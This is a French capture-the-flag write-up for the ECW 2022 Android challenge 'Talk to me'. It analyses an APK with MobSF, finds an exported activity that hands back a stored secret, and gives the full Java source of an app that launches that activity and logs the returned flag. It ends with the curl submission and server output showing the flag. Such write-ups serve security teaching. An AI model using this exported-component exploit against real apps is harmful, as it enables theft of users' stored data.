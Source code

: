 # ECW 2022 Write Up

## ANDROID - Talk to me - 77 solves - 357 pts

Dans ce challenge des instructions nous sous fournies afin de déployer une application Android sur une image docker.
Le but est de déployer une application (qui sera automatiquement executé sur l'android virtualisé) qui exploitera la vulnérabilité de l'application préalablement installé sur l'appareil.

![Enonce](images/enonce.png)

Les fichiers fournis dans le challenge sont disponnibles dans le dossier `enonce`.

### Analyse de l'application

La première étape consiste à analyser l'application. Un excellent outil que j'aime utiliser est [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) disponible dans sa version live [ici](https://mobsf.live/).
Pour ma part je vais lancer l'application en local grâce à Docker:

```Bash
docker run -p 8000:8000 opensecurity/mobile-security-framework-mobsf 
```

Une fois l'appli lancé on se connecte sur l'interface web http://127.0.0.1:8000 et on upload l'apk :

![MobSF](images/mobsf.png)

On prend le temps d'installer Android Studio durant l'analyse. Une fois l'analyse terminé on peut parcourir le report afin de detecter les vulnérabilités évidente.  
Le rapport de l'analyse est disponnible [ici](report.pdf).  
L'application ne présente visiblement pas de vulnérabilité grave, une chose retient cependant notre attention :

![allowBackup](images/backup.png)

Ce tag signifie qu'il est possible d'enregistrer une application et ses datas. Cependant une connexion adb sera nécessaire pour exploiter cette mauvaise configuration. Il serait envisageable de faire une application qui backup d'autres application mais cela me semble relativement long et fastidieux à réaliser.

### Extraction des sources

Pour en savoir plus nous allons devoir lire le code source de l'application. Il est possible d'utiliser le paquet apktool mais, il n'est possible d'extraire les sources que en smali et personnellement je préfère lire les sources directement en Java. Heuresement MobSF nous permet de télécharger les sources Java une fois l'analyse terminé.

Les sources extraites sont disponnibles dans le dossier `sources`.

```Bash
sources
└── com
    ├── ecw2022
    │  └── helloworld
    │      ├── BuildConfig.java
    │      ├── CryptoActivity.java
    │      ├── MainActivity.java
    │      └── R.java
    └── google
```

On repère dans le AndroidManifest cette ligne qui nous interpelle :

```xml
<activity android:name="com.ecw2022.helloworld.CryptoActivity" android:enabled="true" android:exported="true" />
```

La balise `exported="true"` signifie que l'activité peut être lancé depuis n'importe qu'elle autre activité, qu'elle vienne de la même application ou bien d'une autre. Voyons si notre application est en mesure d'exploiter quelque chose dans cette activité.

MainActivity.java
```Java
public class CryptoActivity extends Activity {

    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            Intent intent = getIntent();
            intent.putExtra("flag", getApplicationContext().getSharedPreferences("prefs", 0).getString("flag", "nope"));
            setResult(ItemTouchHelper.Callback.DEFAULT_DRAG_ANIMATION_DURATION, intent);
            finish();
        } catch (Exception e) {
            Log.e("FAIL", Log.getStackTraceString(e));
        }
    }

}
```

Je vais essayer d'expliquer rapidement pour les neophytes comment cet extrait de code est interprété par Android.

- La fonction [onCreate()](https://developer.android.com/reference/android/app/Activity#onCreate(android.os.Bundle)) est appelé lorsque l'activité est démarré pour la première fois.
- La fonction [getIntent()](https://developer.android.com/reference/android/app/Activity#getIntent()) permet de récupérer l'intent qui a démarré l'activité. Un [Intent](https://developer.android.com/reference/android/content/Intent) est un message asynchrone qui permet aux activités android de communiquer entre elles.
- La fonction [putExtra()](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)) permet de copier une valeur dans une clé (ici "flag") dans l'intent.
- La fonction [setResult()](https://developer.android.com/reference/android/app/Activity#setResult(int,%20android.content.Intent)) permet d'enregister les informations d'un intent afin de le retourner à l'activité qui sera repris à la fermeture de l'activité en cours.
- La fonction [finish()](https://developer.android.com/reference/android/app/Activity#finish()) termine l'activité en cours et renvoie à l'activité précédente.

D'après l'analyse de cet extrait de code voila le WorkFlow qui devra être accompli par notre application :

Au lancement de l'application :
- Lancer l'activité CryptoActivity de l'application com.ecw2022.helloworld

À la reprise de l'application :
- Récupérer les informations renvoyés par l'Intent de CryptoActivity.
- Afficher la valeur de l'extra "flag"

### Developpement de notre Application

Je vous invite à initialiser un projet Android "Empty Activity" en Java avec [AndroidStudio](https://developer.android.com/studio?hl=fr).
Comme nous l'informe la note fourni par les organisateurs :
* its package name must be `com.ecw2022.app`
* its main activity must be `MainActivity`

Les sources de l'application que j'ai developpé sont disponnibles dans le dossier `app`.

MainActivity.java
```Java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("com.ecw2022.helloworld", "com.ecw2022.helloworld.CryptoActivity");
        startActivityForResult(intent, 1);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if (requestCode == 1) {
            if(resultCode == ItemTouchHelper.Callback.DEFAULT_DRAG_ANIMATION_DURATION){
                String result=data.getStringExtra("flag");
                Log.d("{ECW2022}",result);
            }
        }
    }
}
```

- La fonction [setClassName()](https://developer.android.com/reference/android/content/Intent#setClassName(java.lang.String,%20java.lang.String)) permet de définir l'activité et l'application dont elle provient que l'intent doit appeler.

- La fonction [startActivityForResult()](https://developer.android.com/reference/android/app/Activity#startActivityForResult(android.content.Intent,%20int)) permet de déclancher l'intent passé en paramètre et d'attendre un retour de cette activité. De cette manière la fonction onActivityResult() sera appelée.

On s'assure que la balise package soit bien renseigné dans le manifest :

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.ecw2022.app">
```
Une fois l'application buildé on extrait le fichier app-debug.apk afin de l'envoyer à l'image docker.

```Bash
curl -v -F 'apk=@app-debug.apk' http:// 213.32.7.237:28074/apk

* Closing connection -1
curl: (3) URL using bad/illegal format or missing URL
*   Trying 213.32.7.237:28074...
* Connected to 213.32.7.237 (213.32.7.237) port 28074 (#0)
> POST /apk HTTP/1.1
> Host: 213.32.7.237:28074
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 6886715
> Content-Type: multipart/form-data; boundary=------------------------146cd4267fd45f8a
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/json; charset=utf-8
< Content-Length: 336
< Date: Thu, 03 Nov 2022 09:16:44 GMT
< Server: Python/3.10 aiohttp/3.8.1
< 
* Connection #0 to host 213.32.7.237 left intact
[
	"virtual device up", 
	"virtual device booted",
	"installing vulnerable app",
	"installed vulnerable app",
	"vulnerable app installed",
	"installing candidate app",
	"candidate app installed",
	"candidate app started",
	"11-03 09:11:45.695  2552  2552 D {ECW2022}: {ECW2022} : ECW{810f32667eb47979694d135e0f024ef5}",
	"virtual device destroyed"
] 
```

Le temps de patienter on part se faire un petit kawa et au retour le flag est dans la poche !